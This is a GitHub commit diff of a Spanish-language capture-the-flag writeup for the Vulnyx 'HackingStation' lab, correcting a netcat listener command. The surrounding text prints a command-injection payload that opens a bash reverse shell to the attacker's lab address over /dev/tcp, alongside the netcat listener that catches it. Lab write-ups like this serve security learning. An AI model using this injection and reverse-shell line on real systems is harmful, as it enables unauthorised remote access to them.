

Before and after one commit to Koh4kU/Writeups, a Markdown page: Vulnyx/HackingStation/writeup.md, the part around the change. GitHub-like rendering.

Commit message:
Update writeup.md hackingstation

````diff
--- a/Vulnyx/HackingStation/writeup.md
+++ b/Vulnyx/HackingStation/writeup.md
@@ -72,7 +72,7 @@ Al ejecutar esto, vemos que al final de la página, nos devuelve "hacker". Podem
 ### Gaining access ###
 Una vez comprobado esto, vamos a enviarnos una reverse shell para conseguir conectarnos con una terminal y poder seguir con la intrusión de forma más sencilla y cómoda. Para esto dejamos nuestra máquina a la escucha por un puerto aleatorio, por ejemplo, 443, a la espera de una conexión.
 ```shell
-$ nc -nlsvp 443
+$ nc -nlvp 443
 ```
 Mientras, hacemos una búsqueda ejecutando una reverse shell sobre el servicio web con: *;bash -c 'bash -i >& /dev/tcp/10.0.2.4/443 0>&1'* y ejecutamos.
 Acabamos de recibir una shell con el usuario hacker sobre la máquina víctima.
````
